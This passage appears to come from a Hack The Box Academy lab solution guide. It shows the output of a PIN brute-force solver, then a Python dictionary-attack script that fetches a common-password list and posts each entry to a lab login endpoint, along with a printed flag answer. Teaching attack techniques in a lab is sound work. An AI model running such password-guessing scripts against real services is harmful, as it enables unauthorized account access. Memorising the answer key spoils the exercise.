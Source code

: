 ```python3
        print(f"Flag: {response.json()['flag']}")
        break
```

Subsequently, students will run the script and will attain the correct PIN code and gain the flag:

Code: shell

```shell
python3 solver.py
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-vxsusos1qt]─[~]
└──╼ [★]$ python3 solver.py 

Correct PIN found: 3424
Flag: {hidden}
```

Answer: `HTB{Brut3_F0rc3_1s_P0w3rfu1}`

# Dictionary Attacks

## Question 1

### "After successfully brute-forcing the target using the script, what is the full flag the script returns?"

After spawning the target, students will save the following Python3 PIN brute-force script as `solver.py` based on their STMIP and STMPO in the `ip` and `port` variables:

Code: python3

```python3
import requests

ip = "STMIP"  # Change this to your instance IP address
port = STMPO       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    
    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```
